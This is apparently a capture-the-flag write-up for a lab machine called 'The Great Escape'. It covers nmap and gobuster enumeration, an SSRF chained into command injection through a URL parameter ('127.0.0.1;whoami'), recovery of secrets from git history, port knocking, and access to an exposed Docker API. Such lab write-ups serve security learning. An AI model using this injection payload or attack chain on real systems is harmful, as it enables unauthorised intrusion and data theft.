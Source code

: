 # The Great Escape

## Enumeration

### Port Scan

The first thing we need to do with this target is enumerate it. To start, we will run an `NMAP` scan in an attempt to discover open ports. The following command will conduct an "Aggressive" scan on the target, including traceroute, default scripts, all ports, OS identification, etc. 

Command:

```bash
nmap -A -n -T5 -p- $TARGET
```

Output:

```bash
Nmap scan report for 10.10.211.81
Host is up (0.095s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings: 
|   GenericLines: 
|_    x7(1"197=iSKx3na=i3w*f
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.91%I=7%D=10/2%Time=6339EC53%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,18,"x7\(1\"197=iSKx3na=i3w\*f\r\n");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   78.20 ms  10.6.0.1
2   ... 3
4   146.41 ms 10.10.211.81

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 15:57:10 2022 -- 1 IP address (1 host up) scanned in 269.25 seconds

```

### Site Enumeration

Now that we see that port 80 is open and this machine is hosting a webserver, we should enumerate the directories and see if there is anything interesting to be found. This can be accomplished using `Gobuster`.  For this scan, `raft-large-directories-lowercase.txt` was used as the wordlist. We need to specify the flag `-b` with codes `200,404,503` because of the behavior of the website.

Command:

```bash
gobuster dir -u http://$TARGET/ -w <path_to_wordlist> -t <number_of_threads> -b 503,200,404
```

Unfortunately, the results do not show much. The only endpoint discovered by `Gobuster` is `/api`. This low number of results is because the server responds with a `503` status code if too many requests are sent to it in a short amount of time. 

The next step is to see if there is a `robots.txt` file. Going to `http://$TARGET/robots.txt` reveals the following information:

```bash
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

What sticks out here is the `/*.bak.txt$` entry. This means there are backup text files present on the server. Going to `http://$TARGET/exif-util.bak.txt` reveals the source of `/exif-util` which, in turn, reveals a new location: `/api-dev-backup:8080/exif` (this will come in handy later on). 

This script show us what the site is doing when we submit a POST request to `/exif-util`:

```js
try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
}
```


What is happening here is, the site takes the `url` parameter we pass to it, and passes it as a `url` parameter to `api-dev-backup:8080/exif`, but it only allows valid URLs to be passed. This opens the site up to a Server Side Request Forgery attack (SSRF). If we pass `http://api-dev-backup:8080/exif` with a custom `url` parameter, we can get the site to make a malicious request on our behalf and gain Remote Code Execution (RCE).

To test this theory, an to gain more information, we can pass in the following route:

```
/api/exif/?url=http://api-dev-backup:8080/exif?url=
```

The response to is request (`http://$TARGET/$ROUTE`) returns the usage information for the `curl` command. This leads us to believe that this `url` parameter is being passed to the command line, opening up the target to RCE.

Return:

![RCE0](../media/pictures/the_great_escape_RCE0.png)

If we make `api-dev-backup:8080`'s `url` parameter `whoami`, we get `root` returned.

URL:

```bash
http://$TARGET/api/exif?url=http://api-dev-backup:8080/exif?url=127.0.0.1;whoami
```

Return:

![RCE1](../media/pictures/the_great_escape_RCE1.png)

If we view all the contents of the user's HOME (~) directory, we find there is a `.git` file present. With this file present, we can review the commit history of the application, potentially discovering sensitive information. There is also a `dev-note.txt` file present in the directory which holds an alleged SSH password.  

Home Dump:

![HomeDir](../media/pictures/the_great_escape_RCE2.png)

Looking at the git commit history, the flag and original dev note were removed in the second commit. The data is still present, however, in the git history. We can access it by viewing the first commit or the second commit. 

Access second commit:

```bash
git show <commit_hash>
```

This reveals some ports to knock to open the docker remote admin port, and a flag.

![GitFlag](../media/pictures/the_great_escape_RCE3.png)

The simplest way to knock the ports is to create a shell script that loops through the ports (in the order they are provided in the document) and performs an nmap scan on that port.

```bash
for port in {<port_list>}; do nmap -p $port $TARGET; done
```

After the ports have been knocked, we can navigate to the Docker port (`2375`) and find the Docker API running and accessible. To view all the containers running, and to get a better understanding of what is going on on the target, we can dump all the container information by navigating to `http://$TARGET:2375/containers/json`.  

For more information regarding the Docker API, check out the documentation [here](https://docs.docker.com/engine/api/). 

## Custom Exploit (Golang)

To automate the exploitation of this machine, a golang program was written and can be found [here](exploit.go).  This program extracts two flags and opens up a closed port using a technique known as `Port Knocking`. After the program has successfully executed, the user can execute Docker commands on the target machine and gain access to the root file system and final flag.

## Screenshots

Exploit Run:

![exploitRun](../media/pictures/the_great_escape_auto1.png "Exploit Run")